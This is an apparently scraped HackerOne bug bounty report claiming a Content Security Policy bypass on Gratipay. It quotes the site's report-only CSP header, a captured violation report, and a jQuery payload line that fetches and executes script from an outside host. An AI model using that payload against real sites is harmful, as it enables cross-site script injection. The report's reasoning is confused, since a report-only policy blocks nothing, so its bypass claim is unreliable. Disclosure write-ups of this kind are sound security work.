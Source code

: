 # CSP Policy Bypass and javascript execution

## Report Details
- **Report ID**: 241192
- **URL**: https://hackerone.com/reports/241192
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-06-18T16:12:36.462Z
- **Disclosed**: 2017-06-18T17:40:27.286Z

## Reporter
- **Username**: athuljayaram
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gratipay

## Vulnerability Information
Content Security Policy (CSP) is a computer security standard introduced to prevent cross-site scripting (XSS), clickjacking and other code injection attacks resulting from execution of malicious content in the trusted web page context. CSP provides a standard method for website owners to declare approved origins of content that browsers should be allowed to load on that website — covered types are JavaScript, CSS, HTML frames, web workers, fonts, images, embeddable objects such as Java applets, ActiveX, audio and video files, and other HTML5 features.

Content-Security-Policy-Report-Only: default-src 'self';script-src 'self' assets.gratipay.com 'unsafe-inline';style-src 'self' assets.gratipay.com downloads.gratipay.com cloud.typography.com;img-src *;font-src 'self' assets.gratipay.com cloud.typography.com data:;block-all-mixed-content;report-uri https://gratipay.report-uri.io/r/default/csp/reportOnly;


in that their is also a report-uri which sends a report on CSP Violation  as POST in case of CSP violation to 
https://gratipay.report-uri.io/r/default/csp/reportOnly;


I have a captured CSP post request in case of violation

PUT /r/default/csp/reportOnly HTTP/1.1
Host: gratipay.report-uri.io
Connection: close
Content-Length: 738
Origin: https://gratipay.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.24 Safari/537.36
Content-Type: application/csp-report
Accept: */*
DNT: 1
Referer: https://gratipay.com/about/pricing
Accept-Language: en-GB,en-US;q=0.8,en;q=0.6

{"csp-report":{"document-uri":"https://gratipay.com/about/pricing","referrer":"https://gratipay.com/about/","violated-directive":"connect-src","effective-directive":"connect-src","original-policy":"default-src 'self';script-src 'self' assets.gratipay.com 'unsafe-inline';style-src 'self' assets.gratipay.com downloads.gratipay.com cloud.typography.com;img-src *;font-src 'self' assets.gratipay.com cloud.typography.com data:;block-all-mixed-content;report-uri https://gratipay.report-uri.io/r/default/csp/reportOnly;","disposition":"report","blocked-uri":"https://sakurity.com/","line-number":8,"column-number":26577,"source-file":"https://assets.gratipay.com/vendors.js?etag=rTtsoO9IGH-cTRpSMarMHQ~~","status-code":0,"script-sample":""}}




I like to use $.get('https://sakurity.com/jqueryxss'); as input to show the CSP policy bypass

by using $.get('https://sakurity.com/jqueryxss'); I was able to bypass allowed CSP policy though https://sakurity.com is not allowed an approved origin of content, still I am able to fetch it and it didn't issue a POST request (report-uri attribute of CSP) which sends a report in case of any CSP violation ,


So using $.get request 
it didn't send a CSP report 
it read the remote content and executed the javascript





SOLUTION
Update your javascript libraries mainly jquery  elements to the latest version



## Attachments
- gratipay_com.png

